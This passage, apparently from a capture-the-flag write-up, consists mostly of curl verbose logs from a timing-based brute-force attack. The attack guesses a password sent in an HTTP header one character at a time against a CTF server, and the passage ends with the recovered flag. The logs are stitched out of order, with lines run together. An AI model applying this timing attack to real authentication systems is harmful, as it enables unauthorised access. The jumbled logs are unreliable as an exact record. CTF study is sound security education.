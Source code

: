 	< Date: Sun, 26 Feb 2017 05:24:15 GMT
	< Content-Length: 12
	< Connection: keep-alive
	< 
	* Connection #0 to host ctfclubiiit.tk left intact
	flag: kyouko* Rebuilt URL to: ctfclubiiit.tk:8080/
	*   Trying 54.175.180.76...
	* Connected to ctfclubiiit.tk (54.175.180.76) port 8080 (#0)
	> GET / HTTP/1.1
	> Host: ctfclubiiit.tk:8080
	> User-Agent: curl/7.47.0
	> Accept: */*
	> password:kyoukp
	> 
	...
	Time taken: 0.8287232987409219* Rebuilt URL to: ctfclubiiit.tk:8080/
	*   Trying 54.175.180.76...
	* Connected to ctfclubiiit.tk (54.175.180.76) port 8080 (#0)
	> GET / HTTP/1.1
	> Host: ctfclubiiit.tk:8080
	> User-Agent: curl/7.47.0
	> Accept: */*
	> password:kyoukZ
	> 
	< HTTP/1.1 200 OK
	< Server: nginx/1.10.0 (Ubuntu)
	< Date: Sun, 26 Feb 2017 05:24:32 GMT
	< Content-Length: 30
	< Connection: keep-alive
	< 
	* Connection #0 to host ctfclubiiit.tk left intact
	Time taken: 0.3412310248097701% 

We are rewarded for our efforts with this. 

	*   Trying 54.175.180.76...
	* Connected to ctfclubiiit.tk (54.175.180.76) port 8080 (#0)
	> GET / HTTP/1.1
	> Host: ctfclubiiit.tk:8080
	> User-Agent: curl/7.47.0
	> Accept: */*
	> password:kyouko
	> 
	< HTTP/1.1 200 OK
	< Server: nginx/1.10.0 (Ubuntu)
	< Date: Sun, 26 Feb 2017 05:24:15 GMT
	< Content-Length: 12
	< Connection: keep-alive
	< 
	* Connection #0 to host ctfclubiiit.tk left intact
	flag: kyouko* Rebuilt URL to: ctfclubiiit.tk:8080/

Flag
====

kyouko
